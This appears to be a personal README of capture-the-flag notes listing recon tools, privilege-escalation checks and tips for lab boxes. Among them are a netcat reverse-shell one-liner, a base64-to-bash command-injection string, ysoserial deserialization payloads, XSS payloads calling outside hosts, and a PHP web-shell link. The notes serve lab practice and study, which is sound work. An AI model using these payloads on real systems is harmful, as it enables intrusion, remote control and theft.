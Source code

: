 # Notes that include various things I've found useful in some ctfs. 
## Tools

Subdomain enumeration 


* GoBuster - good for DNS searchers. Always use the -t 1000 switch while on VPN
* DirSearch - Quick for directory searches 
* FFuF - doesn't work that well on HTB vpns


nmap
* Service Version all with output to note. 
```
sudo nmap -sV -A host -oN host-nmap.txt
```
* Regular scan for a quick scan
```
nmap -p- host
```
* udp scan -T4 + agression -vv verbose
```
nmap -sU -T4 -vv
```
Serliaze a command (this case a ping) to a .des file to eventually turn into b64 
```
java -jar ysoserial-all.jar CommonsBeanutils1 'ping 10.10.14.11 -c 5' > ping.des 
```

Get the b64 payload 
```
base64 -w 0 ping.des > ping.b64 
```

Reading base64 payload then running in bash. 
```
;echo 'payload'|base64 -d|bash;
```

Find Permissions that you have - 
```
find / -type f -perm -u=s 2>/dev/null
```

Find Password in Derby.dat (ofbiz)
```
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .
```

Sign in as admin
```
su root
```	
Make bash script executable 
```
chmod +x filename.sh
```
See if you can run anything that normally requires sudo with current account
```
sudo -l
```

White [space] in commands
```
${IFS}
```
		
Basic Netcat listener 
```
nc -lvnp 4444
```
	
Basic http.server to fetch with
```
python3 -m http.server
```	
PhP shell, save as .phar file or other php varients. 
```
https://github.com/flozz/p0wny-shell
```
SNMPWalk - Gather info from SNMP. v2c specifies snmp version -c specifies a specific string you're looking for
```
snmpwalk -v2c -c string domain 
snmpwalk -c <community_string> -v2c <OID>
```
	
Basic SQLmap on a domain 
```
sqlmap -u "vulndomain" --batch 
```
Fetching password in windows using powershell 
```
echo PASSWORD > pass.txt
$EncryptedString = Get-Content .\pass.txt
$SecureString = ConvertTo-SecureString $EncryptedString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
echo $Credential.GetNetworkCredential().password
```

#Shells
Outside of revshells, there may be others that are useful 
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [IP] [port] >/tmp/f
```


# Identification 
```
uname -a
```
```
cat /etc/os-release
```
```
find / -name "filename.type"
```

```
<img src=x onerror="for(let i=0;i<4;i++){fetch('http://192.168.1.100/ping?'+i);}">
```

***Look at some word lists that include/actuator***

# Tips N Tricks

***Always try default credentials***

When using the cookie, use the intercept mode and do it one by one for each authentication in Burp. There is a way to configure it where it will automatically use it, somewhere. Haven't figured that part out. 

When doing downloads, use intercept and see if you can do directory traversal or fetch other files than what you're looking to downloads

Look at the individual folders for the writeups I'll do.. They're literally a transcription of my notes that I take while working on these boxes. 

# Good Resources 

GTFOBins
	https://gtfobins.github.io/

Hack Tricks
	https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp?source=post_page-----cc2d7b64da35--------------------------------
```
<img src="x" onerror="document.body.innerHTML+='<iframe src=\'http://example.com\' width=\'800\' height=\'600\'></iframe>';">
```
